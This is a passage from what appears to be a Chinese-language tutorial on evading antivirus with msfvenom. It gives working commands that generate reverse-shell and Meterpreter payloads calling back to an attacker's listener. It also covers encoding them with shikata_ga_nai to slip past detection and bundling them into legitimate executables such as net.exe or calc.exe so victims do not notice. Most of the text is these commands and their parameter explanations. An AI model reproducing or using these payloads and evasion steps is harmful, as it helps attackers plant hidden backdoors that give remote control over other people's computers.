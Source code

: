 ```
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.223 LPORT=9999 -f raw -o shell.rb
```

### 0x04 msfvenom常用的免杀套路:

#### 1、自编码处理:

使用   msfvenom --list encoders   可以查看自带的所有编码器:

![image-20200115102647319.png](https://ae01.alicdn.com/kf/U394694329c104bdb9e1719c2535a19f28.png)

```
从图中可以看到Rank为杰出的是  x86/shikata_ga_nai  和   cmd/powershell_base64 这俩个编码器了,而我们在免杀中最常用的就是x86/shikata_ga_nai这个编码器了
```

##### 案例:

使用x86/shikata_ga_nai编码器生成payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.223 LPORT=9999 -e x86/shikata_ga_nai -b "\x00" -i 30 -f exe -o payload1.exe

参数解释:
    -p     指定payload
    -e     指定编码器
    -b     指定生成的payload中不包含的字符
    -i     指定编码的次数
    -f     指定木马文件输出的格式
    -o     指定保存的位置及文件名
里面存在很多\x00这个在字符串拷贝的时候会被截断，所以我们需要通过编码的方式去掉这些\x00
```

##### 效果:

![image-20200115103117236.png](https://ae01.alicdn.com/kf/U0ed7a0ba72dd43b28ad1ee3c5d064948L.png)

可以正常上线,但现在基本大多数的杀毒软件都会杀.

```
shikata_ga_nai编码技术是多态的是成payload文件都不一样，有时生成的文件会被查杀，有时却不会。并不是编码次数越多越免杀!
```

#### 2、捆绑处理:

就是指定一个自定义的可执行文件作为模板,然后将payload嵌入其中.

##### 案例:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.223 LPORT=9999  -x net.exe  -f exe -o payload2.exe

参数解释:
  -x      指定模板文件

默认情况下，msfvenom 使用保存在目录 msf/data/templates 下的模板文件。如果你想要选择自己的模板，你可以使用 -x 参数来指定
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe
请注意：如果你想使用一个自定义的基于 64 位操作系统的模板，那么请将 -f 参数中的 exe 修改为 exe-only
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/

宿主程序并不会启动，如果想隐蔽木马文件让用户察觉不出来宿主程序有问题的话，则要在生成木马的那段代码中添加 -k 选项，此意为攻击载荷会在一个独立的进程中启动而源宿主程序的运行不受影响。但是，目前这仅适用于较老的Windows机器，如 x86 Windows XP。
```
